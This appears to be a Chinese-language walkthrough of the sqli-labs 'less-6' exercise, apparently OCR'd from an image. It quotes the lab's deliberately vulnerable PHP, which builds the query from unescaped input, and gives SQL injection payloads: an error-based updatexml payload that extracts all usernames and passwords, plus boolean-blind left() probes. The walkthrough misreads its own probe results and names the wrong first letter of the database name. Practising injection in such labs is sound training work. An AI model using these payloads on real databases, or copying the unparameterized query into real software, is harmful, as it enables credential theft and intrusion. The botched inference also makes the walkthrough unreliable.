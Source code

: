 ```sql
SUBSTRING(string FROM start FOR length)
```

- `string`：要提取子字符串的原始字符串。
- `start`：子字符串开始的位置（从1开始计数）。
- `length`：要提取的子字符串的长度。

## less-6 报错注入

```php+HTML
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font size="5" color="#FFFF00">';
        echo 'You are in...........';
        echo "<br>";
        echo "</font>";
        }
        else 
        {

        echo '<font size="3"  color= "#FFFF00">';
        print_r(mysql_error());
        echo "</br></font>";
        echo '<font color= "#0000ff" font size= 3>';

        }
}
        else { echo "Please input the ID as parameter with numeric value";}
```

报错注入，用双引号闭合

```
1" and updatexml(1,concat(0x7e,(select substring(group_concat(username,'@',password),1)from users),0x7e),1)--+
```

布尔盲注(left)

```
1" and left(database(),1)>'r'--+ 正常回显
1" and left(database(),1)>'s'--+ 错误回显
```

第一个字母是`r`

```
1" and left(database(),2)>'sd'--+ 正常回显
1" and left(database(),2)>'se'--+ 错误回显
```
